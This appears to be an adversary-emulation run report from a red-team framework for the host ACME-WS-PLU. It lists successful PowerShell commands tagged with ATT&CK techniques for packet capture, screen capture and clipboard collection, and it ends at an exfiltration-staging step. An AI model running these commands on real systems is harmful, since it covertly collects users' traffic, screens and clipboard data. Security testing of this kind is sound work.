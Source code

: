   Status: Success

  PID: 3840

  Start: 2024-09-13T18:32:12Z

  Command: 
```powershell
$path = "$ENV:UserProfile\Desktop\pcap.etl";New-NetEventSession -Name "PCAP" -CaptureMode SaveToFile -LocalFilePath $path;Add-NetEventProvider -Name "Microsoft-Windows-TCPIP" -SessionName "PCAP";Start-NetEventSession -Name "PCAP";Start-Sleep -s 60;Stop-NetEventSession -Name "PCAP";if (Test-Path $path) {  echo $path;  exit 0;} else {  echo "Failed to generate PCAP file.";  exit 1;};
```


## Host: ACME-WS-PLU (paw: hkrmxr)

###   Description: capture the contents of the screen


  Attack: {'tactic': 'collection', 'technique_name': 'Screen Capture', 'technique_id': 'T1113'}

  Status: Success

  PID: 9912

  Start: 2024-09-13T18:22:15Z

  Command: 
```powershell
$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;
```


###   Description: copy the contents for the clipboard and print them


  Attack: {'tactic': 'collection', 'technique_name': 'Clipboard Data', 'technique_id': 'T1115'}

  Status: Success

  PID: 3504

  Start: 2024-09-13T18:23:18Z

  Command: 
```powershell
Get-Clipboard -raw
```


###   Description: create a directory for exfil staging
